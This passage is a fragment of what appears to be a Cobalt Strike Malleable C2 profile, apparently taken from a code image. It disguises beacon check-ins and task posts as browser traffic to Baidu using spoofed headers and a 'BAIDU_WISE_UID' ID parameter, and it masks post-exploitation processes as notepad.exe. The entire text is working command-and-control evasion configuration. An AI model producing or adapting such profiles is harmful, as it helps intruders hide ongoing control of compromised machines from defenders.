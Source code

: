 ```php
        header "User-Agent" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36";
        header "Accept-Language" "zh-CN,zh;q=0.9,en;q=0.8";
        header "Referer" "https://www.baidu.com/";
        header "Accept-Encoding" "gzip, deflate";
        header "Sec-Fetch-Site" "same-origin";

        output {
            print;
        }
    }
}

http-post {

    set uri "/send";
    set verb "POST";

    client {

        header "User-Agent" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36";
        header "Accept-Language" "zh-CN,zh;q=0.9,en;q=0.8";
        header "Referer" "https://www.baidu.com/";
        header "Accept-Encoding" "gzip, deflate";
        header "Sec-Fetch-Site" "same-origin";

        id {
            parameter "BAIDU_WISE_UID";
        }

        output {
            prepend "";
            print;
        }
    }

    server {

        header "User-Agent" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36";
        header "Accept-Language" "zh-CN,zh;q=0.9,en;q=0.8";
        header "Referer" "https://www.baidu.com/";
        header "Accept-Encoding" "gzip, deflate";
        header "Sec-Fetch-Site" "same-origin";

        output {
            print;
        }
    }
}

post-ex {
    # control the temporary process we spawn to
    set spawnto_x86 "%windir%\\syswow64\\notepad.exe";
    set spawnto_x64 "%windir%\\sysnative\\notepad.exe";
}
```
